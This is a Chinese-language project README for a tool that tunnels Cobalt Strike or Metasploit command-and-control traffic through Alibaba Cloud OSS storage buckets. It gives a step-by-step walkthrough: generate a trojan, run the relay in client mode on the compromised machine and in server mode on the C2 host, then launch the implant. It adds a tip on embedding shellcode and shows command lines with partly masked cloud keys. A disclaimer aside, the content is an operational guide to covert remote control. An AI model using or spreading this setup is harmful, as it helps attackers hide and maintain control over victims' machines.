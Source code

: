 # aliyun-oss-c2
利用阿里云oss，来转发http流量，该代码是在大佬9bie基础上改造而来（大佬的是利用腾讯云OSS）：https://github.com/9bie/oss-stinger

可以用来cs/msf上线等

# 免责声明
*****
该工具仅用于各安全公司用于提升自己安全产品检测能力

由于传播、利用此工具所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。

本人拥有对此工具的修改和解释权。未经网络安全部门及相关部门允许，不得善自使用本工具进行任何攻击活动，不得以任何方式将其用于商业目的。
*****

# 如何使用
```
[WARN] 需要确保OSS ACCESS KEY和OSS ACCESS KEY SECRET的权限最低
  -address string
        监听地址或者目标地址，格式：127.0.0.1:8080，即CS监听本地端口
  -bucket string
        请输入你的阿里云bucket
  -endpoint string
        请输入你Bucket对应的Endpoint，以华东1（杭州）为例，填写为oss-cn-hangzhou.aliyuncs.com
  -id string
        输入你的阿里云OSS ACCESS KEY
  -key string
        输入你的阿里云OSS ACCESS KEY SECRET
  -mode string
        client/server 二选一
[WARN] 运行案例：
[WARN] 在要上线机器上运行下面程序后再运行马：
aliyun-oss-c2-core.exe -mode client -address 127.0.0.1:8080 -endpoint oss-cn-beijing.aliyuncs.com -id LTAI5tNEupVMgZYjkJELsXXX -key qGTqABP1sQSxGhwSvt6J1W8QXXXXXX -bucket XXXX
[WARN] 在服务器（C2机器上）运行下面程序后再运行马：
aliyun-oss-c2-core.exe -mode server -address 127.0.0.1:8080 -endpoint oss-cn-beijing.aliyuncs.com -id LTAI5tNEupVMgZYjkJELsXXX -key qGTqABP1sQSxGhwSvt6J1W8QXXXXXX -bucket XXXX
```
首先，现在cs生成一个http的listen，并把host都改成127.0.0.1，然后生成木马
![img.png](.README/img3.png)

1、去阿里云申请一个OSS的Bucket列表，Buckert的名称对应上面的-bucket的值
https://oss.console.aliyun.com/bucket
![img.png](.README/img.png)
点击创建好的Bucket即可获取到对应的endpoint，即对应上面的-endpoint的值
![img.png](.README/img2.png)
然后再去 `https://ram.console.aliyun.com/users` 拿到OSS ACCESS KEY和OSS ACCESS KEY SECRET。

然后就可以使用我们的工具，先在客户机上起一个转发器。记得一定要把权限搞到只能操控该oss

```
# 在要上线机器上运行下面程序后再运行马：
aliyun-oss-c2-core.exe -mode client -address 127.0.0.1:8080 -endpoint oss-cn-beijing.aliyuncs.com -id LTAI5tNEupVMgZYjkJELsXXX -key qGTqABP1sQSxGhwSvt6J1W8QXXXXXX -bucket XXXX
```

然后服务器运行
```
# 在服务器（C2机器上）运行下面程序后再运行马：
aliyun-oss-c2-core.exe -mode server -address 127.0.0.1:8080 -endpoint oss-cn-beijing.aliyuncs.com -id LTAI5tNEupVMgZYjkJELsXXX -key qGTqABP1sQSxGhwSvt6J1W8QXXXXXX -bucket XXXX
```
然后在客户机双击你的木马，就能上线了
![img_1.png](.README/img_1.png)

# tips
如果要弄成一个文件，自行修改代码把shellcode加入进去然后用`go runshellcode()`即可。
secretkey和secretid的安全问题，目前没有什么好的解决方案，当前只能把权限修改成最低。

# TODO
 - shellcode加载
 - 自定义修改流量特征
 - 合并阿里云/aws/腾讯云等支持
 - 添加其他协议支持（HTTPS会优先考虑）
